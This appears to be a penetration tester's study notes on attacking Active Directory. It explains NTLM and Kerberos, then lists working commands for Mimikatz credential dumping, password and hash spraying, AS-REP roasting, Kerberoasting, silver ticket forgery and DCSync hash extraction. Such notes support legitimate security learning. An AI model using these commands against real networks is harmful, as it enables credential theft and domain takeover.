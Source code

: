 ```yaml
---
layout: blank
pagetitle: Attacking Active Directory
---
```


## Understanding Authentication

**NTLM**
- Used when authenticating via IP address (not hostname) or a hostname not present on the AD DNS server
- Steps are:
	- Calculate NTLM Hash
	- Send username to application server
	- App server sends nonce
	- Client encrypts nonce using their hash and sends both to app server
	- App server sends client response, username, and nonce to the DC (user's hash unknown)
	- DC encrypts nonce with NTLM hash (already known) of the user and compares to response
	- If valid, DC approves authentication

**Kerberos**
- Adopted from Kerberos v5 from MIT, used as primary auth method since 2003
- Uses a ticket system, DC acts as a Key Distribution Center (KDC)
- Rather than authenticating against the application, clients get a ticket from the KDC
- Steps:
	- Client sends Authentication Server Request (AS-REQ) to the DC
		- This contains a timestamp encrypted using the hash derived from the user's username and password
	- DC receives request and looks up the password hash of the user in the `ntds.dit` file, using it to decrypt the timestamp
	- If the decryption is successful and the timestamp is unique, auth is granted
	- DC then sends client an Authentication Server Reply (AS-REP), containing a session key and a ticket-granting ticket (TGT)
		- Session key can be decrypted with user hash and reused
		- TGT contains user and domain info, IP address of client, timestamp, and a session key
			- The TGT is encrypted using the NTLM hash of the krbtgt user
			- TGT is valid for 10 hours by default and is automatically renewed while session remains active
	- Client constructs a Ticket-Granting Service Request (TGS-REQ) consisting of the current user and timestamp encrypted with the session key, resource name, and encrypted TGT and sends that back to the DC/KDC
	- The DC then ensures the resource exists and decrypts the TGT with its secret key and extracts the session key for the username and timestamp of the request
	- The KDC then performs the following checks:
		- The TGT has a valid timestamp
		- The username from the TGS-REQ matches the username of the TGT
		- The client IP address coincides with the TGT IP address
	- If those checks pass, the KDC responds with a Ticket-Granting Server Reply (TGS-REP), containing three parts:
		- Name of the service access granted for
		- 2nd session key to be used between the client and service
		- Service ticket containing the username, group memberships, and 2nd session key
	- Now that the client has a session key and a service ticket, it sends the application an Application Request (AP-REQ) including the username/timestamp encrypted with the service ticket session key and the ticket itself
	- The application server decrypts the service ticket using its account password hash, extracting the username/session key, using the session key to decrypt the username from the AP-REQ. If they match, the service assigns the appropriate permissions to the user based on the group memberships in the ticket, and access is granted

**Cached Credentials**
- Password hashes stored in Local Security Authority Subsystem Service (LSASS)
- Basically just use Mimikatz as before
	- `privilege::debug` gives us the `SeDebugPrivilege` to run below commands
	- `token::elevate` to elevate to SYSTEM user
	- `lsadump::sam` will dump NTLM hashes of local users
	- `sekurlsa::logonpasswords` will look for clear-text passwords, dump NTLM hashes (including domain users), and dump Kerberos tickets
	- `sekurlsa::tickets` will show tickets stored in memory
		- We want to steal TGT more than a TGS for overall service access (rather than just one)
- Public Key Infrastructure (PKI)
	- Part of the Active Directory Certificate Service (AD CS), which implements PKI to exchange digital certs between authenticated users and trusted resources
	- Certificate Authority (CA) servers can grant/revoke certificates
		- The private keys used are usually non-exportable, but Mimikatz's `crypto::capi` and `crypto::cng` can take care of that

## AD Password Attacks

**Password Spraying**
- Avoiding lockout - `net accounts` will show authentication lockout information
- Using [script enumeration](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/modules/Spray-Passwords.ps1) 
	- `.\Spray-Passwords.ps1 -Pass Nexus123! -Admin`
- SMB password spraying
	- Use `crackmapexec`
		- `crackmapexec smb {IP_with_smb} -u users.txt -p passwords.txt -d {domain} --continue-on-success`
			- Can also pass single username/password
		- This sprays passwords against a single IP's SMB share
		- This will also show whether the user is an administrator
	- SMB hash spraying
		- `crackmapexec smb {IP} -u {users.txt} -H {hashes.txt}`
	- Crackmapexec can also run comands via SMB:
		- `nxc smb {IP} -u {username} -p {password} -X 'powershell -e ...`
- Obtaining TGTs
	- Use [kerbrute](https://github.com/ropnop/kerbrute/releases/) - `.\kerbrute_windows_amd64.exe passwordspray -d {domain} .\usernames.txt "{password}"`
	- AS-REP Roasting without credentials, described below
- WinRM
	- Indicated by port 5985/5986
	- `evil-winrm -i {IP} -u '{domain}\{domain_user}' -p '{password}'`
	- Also accepts NTLM hashes `evil-winrm -i {IP} -u {user} -H {hash}`
- RPC:
	- Indicated by port 135,593
	- Can get an RPC shell with `rpcclient -U {username} {IP}`
		- `enumdomusers` can get the domain users from within RPC, which we can then check again for preauth
		- `queryuser {username}` to get user properties (passwords could be in descriptions)
			- Can also just `querydispinfo`
	- Could also have a null session (basically allowing anonymous users to connect and query info)
    	- `enum4linux` will check for this
    	- `rpcclient -U "" {IP} -N`

**AS-REP Roasting**
- Requires that Kerberos preauth is disabled, which prevents sending an AS-REQ on behalf of any user
- Performing hash cracking after receiving the AS-REP from the KDC
- Performed with `impacket-GetNPUsers` on kali side
	- `impacket-GetNPUsers -dc-ip {dc} -request -outputfile hashes.asreproast {domain}/{username}` (alongside password)
		- With users.txt: `impacket-GetNPUsers {domain}/ -no-pass -usersfile users.txt -dc-ip {IP} | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'`
	- Hashes can be cracked with Hashcat's 18200
- Performed with [`Rubeus`](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) on Windows side
	- `.\Rubeus.exe asreproast /nowrap`
- This can also be done without a password to find users who don't have Kerberos pre-auth
	- `impacket-GetNPUsers -dc-ip {IP} {domain}/`
	- These users don't require a password to grab the TGT hash

**Kerberoasting**
- Cracking the password of the service account by using the encrypted SPN password hash used on the service ticket
- Can use `impacket-GetUserSPNs` if remote with creds
	- `impacket-GetUserSPNs {domain}/{user}:{password} -dc-ip {IP} -request`
- Can use `Rubeus` again if local
	- `.\Rubeus.exe kerberoast /outfile:hash.txt`
- Can crack with Hashcat's 13100 mode

**Silver Tickets**
- Forging our own service tickets via a password hash that should only be known to the DC and service account
	- Basically forging a ticket using a hash that tells the service we have more permissions than we actually do
	- This requires that Privileged Account Certificate (PAC) be disabled, which it often is
- To create the ticket, we need:
	- SPN password hash - can use `sekurlsa::logonpasswords` on machine with established session with application (usually(?) current machine)
	- Domain SID - `whoami /user` minus the last number (user RID)
	- Target SPN - basically just the DNS host name and the protocol (like HTTP)
- Performed using `mimikatz`
	- Don't escalate privileges to `NT Authority\System`
	- `kerberos::golden /sid:{sid} /domain:{domain} /ptt /target:{dnshostname} /service:{service_protocol(http)} /rc4:{NTLM_hash} /user:{any_domain_user}`
		- `ptt` allows us to inject forged ticket into memory of target machine
- Then, we should be able to access the service with the following:
	- `iwr -UseDefaultCredentials {protocol}://{dnshostname}`

**Domain Controller Synchronization**
- Sometimes multiple DCs across an environment for redundancy
- These DCs use Directory Replication Service (DRS) to synchronize
- DCs receiving requests for updates don't check if the request came from a known DC and only verify that the SID has the correct privileges
	- This means that we just need a user with the correct privileges
	- *Required*: Replicating Directory Changes, Replicating Directory Changes All, Replicating Directory Changes in Filtered Set 
		- Owned by Domain Admins, Enterprise Admins, and Administrators by default
- If we have `WriteDACL` on the domain via a group, we can give ourselves the necessary permissions
- Performed with `mimikatz` on domain-joined machine or `impacket-secretsdump` on kali
	- This gives us a way to get the hash of any domain user
	- `lsadump::dcsync /user:{domain}\{user}` 
- Can also be performed with `impacket-secretsdump`
	- `impacket-secretsdump -just-dc-user {target_domain_user} {domain}/{admin_username}:"{password}"@{DC_IP}`
	- `impacket-secretsdump -hashes :{NTLM_hash} {domain}/{user}@{DC_IP}`
